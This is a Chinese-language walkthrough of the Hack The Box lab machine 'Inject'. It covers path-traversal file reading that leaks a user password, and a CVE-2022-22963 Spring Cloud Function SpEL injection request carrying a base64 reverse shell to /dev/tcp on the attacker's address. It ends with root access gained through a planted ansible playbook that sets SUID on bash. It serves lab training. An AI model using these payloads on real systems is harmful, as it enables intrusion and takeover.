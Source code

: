 ```yaml
---
layout: post
title: "HTB靶场之-inject"
date: "2023-05-12T01:06:43.777Z"
---
```

HTB靶场之-inject
=============

准备：
===

攻击机：虚拟机kali。

靶机：Inject，htb网站：https://www.hackthebox.com/，靶机地址：https://app.hackthebox.com/machines/Inject。

知识点：ansible提权（非漏洞提权）、本地文件包含漏洞、CVE-2022-22963、敏感信息发现。

一：信息收集
======

1.nmap扫描
--------

使用nmap扫描下端口对应的服务：nmap -T4 -sV -p22,80,8080,3306 -A 10.10.11.204，显示开放了22端口、8080端口，开启了ssh服务、http服务。

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511165940297-258150303.png)

2.web服务
-------

请求下其8080端口的web服务：http://10.10.11.204:8080/，发现存在文件上传的功能点。进行上传测试时显示只允许上传图片文件。

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511170248956-1369270465.png)

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511170748149-179150081.png)

二：信息利用
======

1.文件上传
------

那就尝试上传一个图片码，win的cmd中copy即可生成，然后将生成的图片码上传到靶机，显示上传成功并可以查看图片信息。

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511171057125-257259996.png)

2.本地文件包含漏洞
----------

然后就尝试进行命令执行：curl http://10.10.11.204:8080/show\_image?img=pass1.jpg?pass=id，意外获得了文件的绝对路径：/var/www/WebApp/src/main/uploads/pass1.jpg。

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511171358926-1030013937.png)

修改下请求的地址，尝试访问下上级目录发现是可以正常访问的。

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511171716726-1919061870.png)

然后就是利用这一直查找，共发现以下信息：

    系统账户：frank、phil
    #使用ssh登录时，无法直接登录
    phil账户的密码信息：DocPhillovestoInject123
    #命令：curl http://10.10.11.204:8080/show_image?img=../../../../WebApp/pom.xml
    依赖信息：org.springframework.cloud   <version>3.2.2</version>

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511172152333-1201433864.png)

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511172509085-2110511337.png)

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511172826724-397482728.png)

 三：CVE-2022-22963漏洞
===================

 springframework.cloud版本在3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2时存在一个spel注入漏洞，其编号是cve-2022-22963，该漏洞的利用方式可以在vulhub网站查看：https://vulhub.org/#/environments/spring/CVE-2022-22963/，利用也较为简单。使用bp抓取：http://10.10.11.204:8080的数据包并进行修改。

    #抓取的数据包
    GET / HTTP/1.1
    Host: 10.10.11.204:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    
    #修改后的数据包
    #加密数据为base64加密，内容为：bash -i >& /dev/tcp/10.10.14.86/6688 0>&1
    #10.10.14.86为本机新增的一个地址
    POST /functionRouter HTTP/1.1
    Host: 10.10.11.204:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44Ni82Njg4IDA+JjE=}|{base64,-d}|{bash,-i}")
    Content-Type: text/plain
    Content-Length: 8
    
    test

 然后在kali中开启对6688端口的监听，命令：nc -nvlp 6688，然后发送修改后的数据包，成功获得shell权限。

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511173946243-1993574965.png)

 获得shell权限后利用上面发现的phil账户的密码信息：DocPhillovestoInject123切换到phil账户，然后在/home/phil目录下发现user.txt文件，读取该文件成功获得flag值。

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511174322288-895681588.png)

四：提权
====

1.信息收集
------

先是使用sudo -l想查看下是否存在特权命令，未成功，然后想着查找下特权文件，发现了/usr/lib/policykit-1/polkit-agent-helper-1，之前遇到过两个这样的漏洞，经过测试均无法利用。

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511174511571-1190180801.png)

然后就上传了LinEnum.sh和pspy64进行信息收集，在pspy64中发现存在定时任务（不太好找，慢慢看，别急），会删除/opt/automation/tasks目录下的所有文件，然后重新将/root/playbook\_1.yml复制到/opt/automation/tasks/playbook\_1.yml，然后执行/opt/automation/tasks/下的所有文件。

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511211046857-76158249.png)

2.ansible
---------

首先看一下playbook\_1.yml的内容与格式，并进行简单的说明。

    - hosts: localhost
      tasks:
      - name: Checking webapp service
        ansible.builtin.systemd:
          name: webapp
          enabled: yes
          state: started

host部分：使用hosts指示使用哪个主机或者主机组来运行下面的tasks，每个playbooks都必须指定hosts，host也可以使用通配符格式。

tasks：指定远端主机将要执行的一系列动作。tasks的核心为ansible的模块，tasks包含name和要执行的模块，name是可选的，只是为了便于用户阅读，模块是必须的，同时也要给予模块相应的参数。

然后百度下如何执行命令，结果如下：

 ![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511213519444-1440197742.png)

3.提权 
-----

那我们就按照playbook\_1.yml格式，构造一个playbook\_2.yml来执行我们需要执行的命令，格式如下：

    - hosts: localhost
      tasks:
      - name: getroot
        command: sudo chmod u+s /bin/bash

然后将playbook\_2.yml上传到靶机，等待一会执行bash -p后成功获得root权限。

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511214541979-480746522.png)

获得root权限后在/root目录下发现root.txt文件，读取该文件成功获得flag值。

![](https://img2023.cnblogs.com/blog/2834847/202305/2834847-20230511214939809-1174546944.png)